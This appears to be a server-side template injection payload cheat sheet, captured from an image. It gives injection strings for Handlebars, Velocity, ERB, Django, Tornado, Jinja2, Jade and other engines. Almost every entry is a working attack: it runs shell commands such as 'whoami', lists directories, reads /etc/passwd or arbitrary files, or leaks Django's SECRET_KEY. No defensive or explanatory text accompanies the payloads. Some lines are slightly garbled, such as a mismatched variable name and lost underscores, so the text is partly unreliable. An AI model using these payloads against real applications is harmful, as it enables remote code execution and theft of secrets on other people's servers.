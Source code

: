 ```
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}

Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end

ERB (Ruby):
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>

Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}

Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}

Mojolicious (Perl):
<%= perl code %>
<% perl code %>

Flask/Jinja2: Identify:
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}

Flask/Jinja2: 
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

Jade:
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}

Razor (.Net):
@(1+2)
@{// C# code}
```
